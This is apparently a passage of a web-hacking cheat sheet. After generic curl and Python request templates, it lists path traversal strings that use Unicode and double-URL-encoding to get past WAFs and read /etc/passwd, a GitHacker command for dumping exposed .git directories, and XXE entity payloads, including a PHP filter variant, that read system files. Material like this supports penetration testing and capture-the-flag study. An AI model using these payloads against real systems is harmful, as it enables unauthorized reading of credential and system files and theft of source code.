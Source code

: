 ### Send Json
```bash
curl -X POST https://example.com/api/submit -H "Content-Type: application/json" -sd '{"email":"lol@lol.com"}'
```

## Python
### Requests
```python
import requests

s = requests.session()
# s.proxies = {
#   "http": "localhost:8080",
#   "https": "localhost:8080",
# }

r = s.get('http://example.com')
print(r.text)
r = s.post('http://example.com/submit',
    headers={
        'Content-type': 'raw',
    },
    data={'user': 'guest'},
    # auth=('username', 'password')
)
print(r.status_code, r.url)
```

# Path traversal

[Bypassing with Unicode Compatibility](https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html)

[File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

```
︰/︰/︰/︰/︰/︰/︰/︰/︰/etc/passwd
..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/%252f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252e%252e%252e%252fetc%252fpasswd%00
```

# Download .git
```bash
githacker --url http://url/.git/ --folder result
```
[Source](https://github.com/WangYihang/GitHacker)

# XML external entity (XXE)
### Read File
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
```